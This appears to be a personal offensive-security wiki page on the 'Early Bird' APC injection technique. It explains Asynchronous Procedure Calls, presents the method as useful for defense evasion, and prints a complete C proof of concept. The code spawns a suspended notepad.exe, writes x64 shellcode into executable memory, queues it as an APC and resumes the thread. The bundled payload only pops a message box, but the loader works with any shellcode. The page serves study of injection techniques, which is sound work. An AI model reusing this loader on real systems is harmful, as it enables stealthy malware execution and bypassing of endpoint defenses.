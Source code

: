 ```yaml
---
description: 06/08/2023
---
```


# 🐦 APC Injection -- "Early Bird Attack"

## What is the "Early Bird" attack?

> "The early bird gets the worm..."

This attack focuses on exploiting Asynchronous Procedure Calls (APC's).

#### What is an APC?

First thing's first, you need to understand what APC is. <mark style="color:yellow;">APC, or Acynchronous Procedure Call</mark>, <mark style="color:yellow;">is a</mark> <mark style="color:yellow;">function that will execute asynchronously within a particular thread</mark>.

#### How does the attack work?

<mark style="color:yellow;">This attack will force another thread to execute their custom code by attaching it to the APC queue of the targeted thread</mark>.&#x20;

A thread will then enter an <mark style="color:yellow;">alterable state</mark> once it begins to wait for further execution.

#### Good for defense evasion?

This technique will allow for injected code to run before the entry point of the main thread of the process.&#x20;

* This allows for major evasion and bypassing
* However, it will only work if the defenses are NOT placed before the main thread has its execution resumed.

## High-Level Explanation

1. Create a <mark style="color:yellow;">suspended</mark> process
2. <mark style="color:yellow;">Allocate and write</mark> malicious code into that process
3. <mark style="color:yellow;">Queue an APC</mark> to that process
4. <mark style="color:yellow;">Resume</mark> the main thread to execute the APC

## Physical Notes

<figure><img src="../.gitbook/assets/IMG_8837.jpg" alt="" width="375"><figcaption></figcaption></figure>

## Proof-of-Concept

**earlybird.c:**

```c
#include <stdio.h>
#include <windows.h>

int createProcessF()

{

    unsigned char buf[] = 
                            "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
                            "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
                            "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
                            "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
                            "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
                            "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
                            "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
                            "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
                            "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
                            "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
                            "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
                            "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
                            "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
                            "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
                            "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
                            "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
                            "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
                            "\x4c\x8d\x85\x2b\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
                            "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
                            "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
                            "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
                            "\xd5\x48\x65\x6c\x6c\x6f\x2c\x20\x66\x72\x6f\x6d\x20\x4d"
                            "\x53\x46\x21\x00\x4d\x65\x73\x73\x61\x67\x65\x42\x6f\x78"
                            "\x00";

    size_t shellcode = sizeof(buf);
    STARTUPINFOW si = {0};
    PROCESS_INFORMATION pi = {0};

    int createProcess = CreateProcessW(L"C:\\WINDOWS\\system32\\notepad.exe",NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);

        if (!createProcess)

        {

            printf("(-) Process creation has failed please try again.\n Error: %ld", GetLastError);

            return EXIT_FAILURE;

        }

        else
        {

            printf("(+) Process was successfully created and started!\n PID: %ld", pi.dwProcessId);

            printf("\n\nProcess with PID:%ld has been started, goodbye.", pi.dwProcessId);

            //return EXIT_SUCCESS;

        }

    HANDLE hProcess = pi.hProcess;
    HANDLE hThread = pi.hThread;

    LPVOID shelladdress = VirtualAllocEx(hProcess, NULL, shellcode, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shelladdress;

    WriteProcessMemory(hProcess, shelladdress, buf, shellcode, NULL);
    QueueUserAPC((PAPCFUNC)shelladdress, hThread, NULL);
    ResumeThread(hThread);

    return 0;

}

int main()

{

printf("Starting notepad.exe as a new process...\n\n");

createProcessF();

}
```

<mark style="color:yellow;">This PoC will send</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`notepad.exe`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">into a suspended state and return a message box upon detonation</mark>.

#### References

{% embed url="https://www.ired.team/offensive-security/code-injection-process-injection/early-bird-apc-queue-code-injection" %}
